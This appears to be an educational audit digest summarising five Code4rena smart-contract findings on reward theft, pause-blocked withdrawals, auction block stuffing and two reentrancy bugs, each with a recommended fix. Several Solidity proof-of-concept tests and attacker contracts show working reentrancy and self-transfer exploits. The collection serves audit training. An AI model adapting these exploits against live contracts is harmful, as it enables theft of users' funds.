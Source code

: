 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-02-anyone-can-steal-all-distributed-rewards) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-02-inability-to-withdraw-funds-for-certain-users-due-to-whennotpaused-modifier-in-ratelimitedminter) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-16-auction-manipulation-by-block-stuffing-and-reverting-on-erc-777-hooks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>

## 4. [High] Exploitation of the receive Function to Steal Funds

### Reentrancy by receive function

- Summary: The contract has a reentrancy vulnerability due to a flaw in its guard mechanism. Attackers can reset the guard using a receive function, allowing them to execute unauthorized withdrawals. They can deposit ETH, borrows some, then initiates a withdrawal, resetting the guard to pay off their own loan and withdraw additional funds.

- Impact & Recommendation: The vulnerability enables unauthorized fund withdrawals from the contract. The recommendation is to add a reentrancy check to the \_sendValue function to prevent exploitation, without disrupting transfers from the WETH address.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-01-exploitation-of-the-receive-function-to-steal-funds) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // import ContractA
    import "./ContractA.sol";
    // import MockErc20
    import "./MockContracts/MockErc20.sol";
    contract WiseLendingShutdownTest is Test {
        ...
        ContractA public contractA;
        function _deployNewWiseLending(bool _mainnetFork) internal {
            ...
            contractA = new ContractA(address(FEE_MANAGER_INSTANCE), payable(address(LENDING_INSTANCE)));
            ...
        }
        function testExploitReentrancy() public {
            uint256 depositValue = 10 ether;
            uint256 borrowAmount = 2 ether;
            vm.deal(address(contractA), 2 ether);
            ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);
            POSITION_NFTS_INSTANCE.mintPosition();
            uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);
            LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
            LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);
            vm.prank(address(LENDING_INSTANCE));
            MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);
            // check contractA balance
            uint ethBalanceStart = address(contractA).balance;
            uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
            console.log("totalBalanceStart", totalBalanceStart);
            // deposit using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
            vm.stopPrank();
        FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);

            // withdraw weth using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
            vm.stopPrank();
            // approve feemanager for 1 weth from contractA
            vm.startPrank(address(contractA));
            MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
            vm.stopPrank();
            // borrow using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
            vm.stopPrank();
            // Payback amount
            //499537556593483218
            // withdraw using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
            vm.stopPrank();
            // check contractA balance
            uint ethBalanceAfter = address(contractA).balance;
            uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
            console.log("totalBalanceAfter", totalBalanceAfter);
            uint diff = totalBalanceAfter - totalBalanceStart;
            assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
        }
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    // import lending and fees contracts
    import "./WiseLending.sol";
    import "./FeeManager/FeeManager.sol";
    contract ContractA {
        address public feesContract;
        address payable public lendingContract;
        address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        constructor(address _feesContract, address payable _lendingContract) payable {
            feesContract = _feesContract;
            lendingContract = _lendingContract;
        }
        fallback() external payable {
            if (msg.sender == lendingContract) {
                // send lending contract 0.01 eth to reset reentrancy flag
                (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
                //paybackBadDebtForToken
                FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
            }
        }
    }


  ```

  </details>

## 5. [High] Player can mint more fighter NFTs during claim of rewards by leveraging reentrancy on the claimRewards() function

### Reentrancy by roundId

- Summary: A reentrancy vulnerability in the `claimRewards` function allows a malicious user to mint more fighter NFTs than they are entitled to. By using a smart contract, a user can repeatedly reenter the function during the reward claim process, resulting in excessive minting of NFTs stems from the `roundId`.
- Impact & Recommendation: Use a `nonReentrant` modifier for the `claimRewards` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-ai-arena#h-08-player-can-mint-more-fighter-nfts-during-claim-of-rewards-by-leveraging-reentrancy-on-the-claimrewards-function) & [Report](https://code4rena.com/reports/2024-02-ai-arena)

  <details><summary>POC</summary>

  ```solidity
    import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
    contract Attack is IERC721Receiver {

        address owner;
        uint256 tickets = 0;
        MergingPool mergingPool;
        FighterFarm fighterFarm;
        constructor(address mergingPool_, address fighterFarm_) {
            mergingPool = MergingPool(mergingPool_);
            fighterFarm = FighterFarm(fighterFarm_);
            owner = msg.sender;
        }
        function reenter() internal {
            ++tickets;
            if (tickets < 100) {
                (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
                mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
            }
        }
        function onERC721Received(address, address, uint256 tokenId, bytes calldata) public returns (bytes4) {
            reenter();
            return IERC721Receiver.onERC721Received.selector;
        }
        function attack() public {
            (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
            mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        }
        function setInformation() public pure returns (string[] memory, string[] memory, uint256[2][] memory) {
            string[] memory _modelURIs = new string[](3);
            _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[2] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            string[] memory _modelTypes = new string[](3);
            _modelTypes[0] = "original";
            _modelTypes[1] = "original";
            _modelTypes[2] = "original";
            uint256[2][] memory _customAttributes = new uint256[2][](3);
            _customAttributes[0][0] = uint256(1);
            _customAttributes[0][1] = uint256(80);
            _customAttributes[1][0] = uint256(1);
            _customAttributes[1][1] = uint256(80);
            _customAttributes[2][0] = uint256(1);
            _customAttributes[2][1] = uint256(80);
            return (_modelURIs, _modelTypes, _customAttributes);
        }
    }

  ```

  ```solidity
      function testReenterPOC() public {
        address Bob = makeAddr("Bob");
        Attack attacker = new Attack(address(_mergingPoolContract), address(_fighterFarmContract));

        _mintFromMergingPool(address(attacker));
        _mintFromMergingPool(Bob);
        assertEq(_fighterFarmContract.ownerOf(0), address(attacker));
        assertEq(_fighterFarmContract.ownerOf(1), Bob);
        uint256[] memory _winners = new uint256[](2);
        _winners[0] = 0;
        _winners[1] = 1;
         // winners of roundId 0 are picked
        _mergingPoolContract.pickWinner(_winners);
        assertEq(_mergingPoolContract.isSelectionComplete(0), true);
        assertEq(_mergingPoolContract.winnerAddresses(0, 0) == address(attacker), true);
        // winner matches ownerOf tokenId
        assertEq(_mergingPoolContract.winnerAddresses(0, 1) == Bob, true);
        string[] memory _modelURIs = new string[](2);
        _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
        _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

        string[] memory _modelTypes = new string[](2);
        _modelTypes[0] = "original";
        _modelTypes[1] = "original";
        uint256[2][] memory _customAttributes = new uint256[2][](2);
        _customAttributes[0][0] = uint256(1);
        _customAttributes[0][1] = uint256(80);
        _customAttributes[1][0] = uint256(1);
        _customAttributes[1][1] = uint256(80);
        // winners of roundId 1 are picked
        uint256 numberOfRounds = _mergingPoolContract.roundId();
        console.log("Number of Rounds: ", numberOfRounds);
        _mergingPoolContract.pickWinner(_winners);
        _mergingPoolContract.pickWinner(_winners);
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address pre-claim rewards: ", _fighterFarmContract.balanceOf(address(attacker)));
        // console.log("Balance of Bob address pre-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
        uint256 numRewardsForAttacker = _mergingPoolContract.getUnclaimedRewards(address(attacker));

        // uint256 numRewardsForBob = _mergingPoolContract.getUnclaimedRewards(Bob);
        console.log("------------------------------------------------------");
        console.log("Number of unclaimed rewards attacker (Alice) address has a claim to: ", numRewardsForAttacker);
        // console.log("Number of unclaimed rewards Bob address has a claim to: ", numRewardsForBob);

        // vm.prank(Bob);
        // _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        vm.prank(address(attacker));
        attacker.attack();
        uint256 balanceOfAttackerPostClaim = _fighterFarmContract.balanceOf(address(attacker));
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address post-claim rewards: ", balanceOfAttackerPostClaim);
        // console.log("Balance of Bob address post-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
    }

  ```

  </details>
